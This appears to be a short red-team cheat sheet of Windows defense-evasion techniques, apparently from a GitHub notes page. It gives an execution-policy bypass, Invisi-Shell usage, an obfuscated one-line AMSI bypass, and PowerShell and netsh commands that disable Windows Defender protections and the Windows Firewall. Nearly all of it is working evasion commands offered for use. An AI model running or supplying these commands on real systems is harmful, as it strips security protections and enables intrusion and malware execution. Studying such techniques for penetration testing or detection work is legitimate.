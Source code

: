 # Evasion Teachniques

## PowerShell

### Execution Policy

```
powershell -ep Bypass
```

### Invisi-Shell

We can use Invisi-Shell (https://github.com/OmerYa/Invisi-Shell) to bypass other powershell protection mechanisim execpt AMSI:

```
RunWithPathAsAdmin.bat (With admin privileges)
RunWithRegistryNonAdmin.bat (With non-admin privileges)
```
Type exit from the new PowerShell session to complete the clean-up.

### AMSI 

If admin rights are not available:

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Windows Defender:

Disable Windows Defender using powershell (Requires Local Admin rights):

```
Set-MPPreference -DisableRealTimeMonitoring $true
Set-MPPreference -DisableIOAVProtection $true
Set-MPPreference -DisableIntrusionPreventionSystem $true
```

## Windows Firewall:

Disable Windows Firewall using powershell (Requires Local Admin rights):

```
Netsh Advfirewall set allprofiles state off
```
